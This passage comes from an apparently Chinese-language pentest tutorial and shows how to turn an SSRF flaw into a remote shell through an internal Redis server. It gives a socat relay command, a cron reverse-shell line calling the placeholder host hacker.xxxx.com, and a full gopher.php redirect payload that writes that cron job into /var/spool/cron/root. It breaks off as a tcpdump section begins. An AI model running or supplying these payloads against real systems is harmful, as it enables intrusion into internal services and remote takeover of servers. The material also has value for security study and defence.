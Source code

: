 本地kali监听，当在受害者网站执行上面的payload 的时候，本地的6666端口收到消息，然后将数据包发送给本地的172.28.100.108:6379（相当于内网中开放redis服务的6379端口）

```
socat -v tcp-listen:6666,fork tcp-connect:172.28.100.108:6379
```



③ kali本地执行

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1g0rvnnipdej20u002ajrn.jpg)

到redis服务器的上查看/var/spool/cron目录下已经创建了root文件内容为

```
*/1 * * * * bash -i >&/dev/tcp/hacker.xxxx.com/9999 0>&1 每一分钟向攻击者的服务器的9999端口建立连接
```

将socat的输出信息保存为1.txt，上传到公网服务器上

---



① 使用Python脚本转换为**gopher**支持的格式

在这之前应该检测是否支持gopher协议

```
python fpm.py 1.txt
```



② kali服务器上存放gopher.php

```
<?php

header("Location: gopher://172.28.100.108:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$62%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/hacker.xxxx.com/9999 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a");

?>
```



③ 在受害者存在ssrf的网站上访问，本地nc监听 即可拿到shell

![](https://ws1.sinaimg.cn/large/b6de3d7dgy1g0rvvoog5hj20u00e20ti.jpg)



# tcpdump

该命令应急以及平时都会经常使用到，linux下抓包观察流量的作用

**监视指定网络接口的数据包**
